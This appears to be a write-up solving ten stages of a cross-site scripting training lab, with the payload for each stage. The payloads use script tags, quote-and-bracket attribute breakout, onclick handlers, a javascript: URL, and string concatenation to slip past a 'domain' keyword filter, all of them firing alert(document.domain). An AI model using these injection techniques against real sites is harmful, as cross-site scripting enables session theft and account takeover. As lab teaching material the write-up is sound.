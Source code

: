 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #6
Use this payload: `" onclick=alert(document.domain)`
Click the search button. Then click the input field again. SOLVED!

## Stage #7
Same as **Stage #6**. Use this payload: `" onclick=alert(document.domain)`

## Stage #8
Use this payload: `javascript:alert(document.domain)'. Then its gonna make an url.
Click that url and the lab is solved.


## Stage #9
Open Console. Then use this: `alert(document.domain)` and execute.


## Stage #10
Since the word `domain` is removed use
```
"><script>alert(document['do'+'main'])</script>
```
